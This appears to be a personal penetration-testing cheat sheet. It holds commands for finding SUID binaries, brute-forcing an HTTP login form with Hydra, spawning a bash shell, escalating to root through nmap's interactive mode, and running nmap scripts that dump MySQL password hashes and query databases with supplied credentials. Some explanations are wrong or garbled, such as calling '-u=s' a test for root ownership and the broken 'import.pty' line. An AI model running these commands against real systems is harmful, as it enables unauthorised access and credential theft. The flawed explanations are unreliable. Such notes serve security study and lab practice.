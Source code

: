 Find all files with SUID bit

    find / -perm -u=s -type f 2>/dev/null

or

    find / -perm -4000 -type f 2>/dev/null

Explanation:

    /denotes  start from the top (root) of the file system and find every directory
    -permdenotes search for the permissions that follow
    -u=sdenotes look for files that are owned by the root user
    -typestates the type of file we are looking for
    f denotes a regular file not the directories or special files
    2 denotes to the second file descriptor of the process, i.e. stderr (standard error)
    > means redirection
    /dev/null is a special filesystem object that throws away everything written into it.


Hydra Password Bruteforce

    hydra 192.168.1.69 http-form-post "/w3af/bruteforce/form_login/dataReceptor.php:user=^USER^&pass=^PASS^:Bad login" -L users.txt -P pass.txt -t 10 -w 30 -o hydra-http-post-attack.txt
    
Explanation:

    Host = 192.168.1.69
    Method = http-form-post
    URL = /w3af/bruteforce/form_login/dataReceptor.php
    Form parameters = user=^USER^&pass=^PASS^
    Failure response = Bad login
    Users file = users.txt
    Password file = pass.txt
    Threads = -t 10
    Wait for timeout = -w 30
    Output file = -o hydra-http-post-attack.txt

To remove all duplicates in a dictionary file

    cat filename.txt | sort | uniq > outfile.txt

Spawn bash

    python -c 'import.pty;pty.spawn("/bin/bash")'

nmap interactive

	nmap --interactive
	!bash -p
more nmap
	-sL : list targets to scan
	-pn : disable port scan(ping sweep?)
	
cool nmap scripts
	
	--script=http-enum
	--script=http-default-accounts
	--script=http-phpmyadmin-dir-traversal
	

passing parameters into nmap script example

	nmap -p 3306 <ip> --script mysql-dump-hashes --script-args='username=root,password=secret'
	nmap -p 3306 100.65.136.252 --script=mysql-query --script-args='query="show tables FROM corporate_database",username=root,password=abc123'
	
	**dont forget username and pass

List of nmap scripts	
https://nmap.org/nsedoc/




	


